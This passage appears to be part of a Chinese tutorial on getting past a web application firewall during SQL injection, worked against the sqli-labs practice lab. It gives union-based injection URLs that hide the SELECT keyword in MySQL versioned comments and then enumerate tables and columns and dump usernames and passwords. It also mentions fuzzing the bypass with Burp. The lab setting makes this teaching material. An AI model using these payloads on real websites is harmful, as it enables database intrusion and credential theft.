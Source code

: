 接下来我们可以用下面的语句进行暴表名：

```bash
http://yourIp/sqli-labs-master/Less-1/?id=-1' union/*/-+-+*/select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database(/*/--/*/) --+
```

可以看到如下截图，发现并没有绕过：

经过测试发现真正的没有绕过的点还是在select这里，那么如果在如果select呢？用传统注释`/**/`的方式已经不行了，
这里使用的是MySQL特有注释`/*!.....*/`的方式，那么如何做呢？

先看答案：

```bash
http://yourIp/sqli-labs-master/Less-1/?id=-1' union/*/-+-+*//*!44441select*/ 1,2,group_concat(table_name) from information_schema.tables where table_schema=database(/*/--/*/) --+
```

可以看到当前数据库security对应的

表有emails,referers,uagents,users

```bash
http://yourIp/sqli-labs-master/Less-1/?id=-1' union/*/-+-+*//*!44441select*/ 1,2,group_concat(table_name) from 
information_schema.tables where table_schema=database(/*/--/*/) --+
```

替换点是在`/*!*/`中感叹号后面，那么如何做替换呢？还是和之前一样，burp直接FUZZ！

##### 暴字段名

有了上述的经验就可以轻松做暴字段名了：

```bash
http://yourIp/sqli-labs-master/Less-1/?id=-1' union/*/-+-+*//*!44441select*/ 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
```

##### 获取字段值

方法一样：

```bash
http://yourIp/sqli-labs-master/Less-1/?id=-1' union/*/-+-+*//*!44441select*/ 1,2,group_concat(username,'|',password) from users--+
```

### 总结

经过前面的实战可以看出，其实所谓的绕WAF没有太大的规律而言，如果非要总结规律的话就是利用`/**/`和`/*!*/`两种注释方式来绕过and、order by 、union等关键词，前面实战讲述的只是一种解题思路，大家可以通过google等方式自己多去探索，挖掘。

